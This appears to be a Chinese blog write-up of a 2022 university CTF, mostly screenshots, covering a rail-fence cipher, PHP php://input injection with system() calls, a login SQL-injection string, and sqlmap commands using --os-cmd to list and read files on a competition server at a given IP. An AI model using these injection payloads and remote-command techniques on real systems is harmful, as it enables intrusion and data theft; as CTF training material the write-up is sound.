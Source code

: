 ```yaml
---
title: 22年网安小学期-CTF
tags: 
  - 网安小学期
  - CTF
permalink: /archives/65465/
createTime: 2022-07-09 16:43:47
---
```


# 木册木兰

![img](https://img.crzliang.cn/img/1656402244227-1535d8a9-9932-489c-af63-b357e1b72be7.png)

- 下载附件，然后根据提示可以看出就是栅栏密码，所以直接解密得到

![img](https://img.crzliang.cn/img/1656402270709-22a55c9b-fd6e-4cef-b874-ef8a6146eb6b.png)

# inputer

![img](https://img.crzliang.cn/img/1656402323639-3d802464-d117-4c8b-99b0-2b5c96c80556.png)



- 先源码，这里要用到php://伪协议
- 直接抓包然后改包，构造`php://input`，利用`system("ls");`输出当前目录下所包含的文件，发包后发现可利用

![img](https://img.crzliang.cn/img/1656403524194-775abc02-cd99-402a-8efb-b0be856fd9e6.png)

- 那就直接用命令`<?php system("cat /flag.txt");?>`获得flag

![img](https://img.crzliang.cn/img/1656403931462-65c99e45-585b-4da9-aa67-ebbf7b040faf.png)

# WEB_blind_exec

![img](https://img.crzliang.cn/img/1656418501152-cffd8b07-e4b3-4c7d-88e9-2af93a200893.png)

# LFI

![img](https://img.crzliang.cn/img/1656425908372-f0b23cde-7697-4219-a001-09d5cd26f703.png)

# baby_sql

```
admin' or '1'='1
```

![img](https://img.crzliang.cn/img/1656463477302-afa6aabf-6cba-40da-a6ab-9c6d651c78ce.png)

# WEB_randnum

![img](https://img.crzliang.cn/img/1656463743749-0e0e3ae5-1757-4c23-a7d3-04eef75b7ca4.png)

# WEB_babyphp

![img](https://img.crzliang.cn/img/1656463757900-66e0ad0f-8176-46e7-aade-bff9d0305c50.png)

# easy_getshell

- [pbot复现](https://www.anquanke.com/post/id/212603?from=groupmessage#h2-6)

![img](https://img.crzliang.cn/img/1656489800858-4a805906-bd00-402f-b3cb-b4cba8d14c15.png)

# sessionlfi

- 源码中发现页面传参使用get方法，猜测存在sql注入漏洞

![img](https://img.crzliang.cn/img/1656507098348-a7fb1359-f1d6-48d8-9fae-9f5423965b72.png)

> 测试payload：
>
> sqlmap -u http://218.94.60.213:13198/table.php?id=1 -dbs
>
> 爆破数据库，共有4个数据库

![img](https://img.crzliang.cn/img/1656507233920-96f5d286-73db-44df-adf0-8dabadee487b.png)

> 使用sqlmap的-os-cmd远程执行命令，看到根目录有flag字样文件
>
> sqlmap -u http://218.94.60.213:13198/table.php?id=1 --os-cmd="ls /"

![img](https://img.crzliang.cn/img/1656507912473-95a1f3c3-29cc-4020-9ed2-c6b1d782801b.png)

> 最后继续使用远程命令查看得到flag
>
> sqlmap -u http://218.94.60.213:13198/table.php?id=1 --os-cmd="cat /flag_asflkhasklfhaklshfkjlashfjkas"

![img](https://img.crzliang.cn/img/1656507964485-4c6551f9-be4e-48c3-bc18-37a4f769352b.png)

# happy

- 题目：

![img](https://img.crzliang.cn/img/1656578511408-899d4caa-da5f-4f4d-b926-301072c6807c.png)

- 解题代码：

![img](https://img.crzliang.cn/img/1660034476965-e38a5350-cba4-4601-b203-f106b0ffc8f4.png)

# rsarsa

- 题目：

![img](https://img.crzliang.cn/img/1656578279183-f84801df-8c4f-4b41-9c7f-6d23eced6b56.png)

- 解题代码：

![img](https://img.crzliang.cn/img/1660034540344-f99ee9de-c416-4530-8855-8f30f950ea9f.png)
